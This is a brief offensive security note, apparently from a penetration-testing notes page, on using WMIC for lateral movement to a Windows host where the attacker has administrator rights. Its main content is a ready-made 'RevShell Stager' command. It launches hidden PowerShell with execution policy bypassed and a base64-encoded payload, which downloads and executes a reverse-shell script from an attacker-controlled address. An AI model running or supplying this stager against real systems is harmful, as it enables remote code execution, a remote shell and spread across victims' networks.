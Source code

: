 
> [!IMPORTANT]
> This note is a work-in-progress.

**The below WMIC syntax requires the victim to:**
- Have WMI enabled.
- Have the remote executing user be apart of the "Local Administrators" group.

```powershell
# Syntax
wmic /node:<victim_ip> process call create "<command_to_execute>"

# Example: Lateral Movement via RevShell Stager
wmic /node:"host.example.com" process call create "powershell -nop -ex bypass -wi h -e aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMAAuADEAMAAvAHIAZQB2AHMAaABlAGwAbAAnACkAKQA="
```